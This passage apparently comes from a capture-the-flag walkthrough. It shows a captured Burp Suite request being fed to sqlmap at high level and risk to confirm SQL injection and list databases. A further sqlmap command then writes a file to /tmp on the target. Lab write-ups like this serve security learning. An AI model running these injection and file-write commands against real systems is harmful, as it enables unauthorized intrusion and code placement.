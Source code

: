 Capture the request in `burpsuite`, copying it and save it into a file   

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009110945.png" alt="1" style="width:700px; height:auto;">
<br/>

Passing the request to `sqlmap` 

```bash
sqlmap -r admin_req --level 3 --risk 3 --batch --dbs
```

We get a hit   

<br/> 
<img src="/img/yummy_screenshots/Pasted image 20241009111042.png" alt="1" style="width:700px; height:auto;">
<br/>

the exploitation was successful  
As expected, found nothing useful on the `database` as we need to put files on the system.  
Using `sqlmap` to do so.  
Testing with a dummy file   

```bash
sqlmap -r admin_req --level 3 --risk 3 --batch --file-write "dummy " --file-dest "/tmp/dummy"
``` 
